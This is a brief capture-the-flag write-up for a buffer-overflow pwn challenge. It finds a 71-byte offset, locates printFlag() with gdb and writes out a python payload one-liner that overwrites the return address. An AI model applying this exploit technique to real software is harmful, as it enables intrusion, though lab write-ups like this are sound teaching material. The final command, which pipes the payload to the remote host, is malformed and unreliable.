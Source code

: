 # BOF
## Pwn

> Is the key the key?
>
> nc 159.89.194.7 1342

### Files
- bofez

### Analysis
The file provided is a linux binary for participants to test locally
The challenge name suggests that they should attempt a Buffer Overflow exploit.

### Solution
1. Finding the offset
   ```./bofez```<br />
   Spam "A"s as input until there is a segmentation fault<br />
   In this challenge, the offset was 71
2. Finding the flag
   Upon disassembling the binary, the printFlag() function can be seen<br />
   ```gdb bofez```<br />
   To find the memory address of the printFlag() function, use ```info functions```<br />
   > printFlag() : 0x401192
3. Convert the memory address
   Convert the hexadecimal memory address to Little-Endian format<br />
   > \x92\x11\x40
4. Crafting the payload
   With the offset and memory address of the printFlag() function, craft the payload<br />
   ```python -c "print 'A' * 71 + '\x92\x11\x40'" > payload```<br />
   ```echo payload > nc 159.89.194.7 1342```
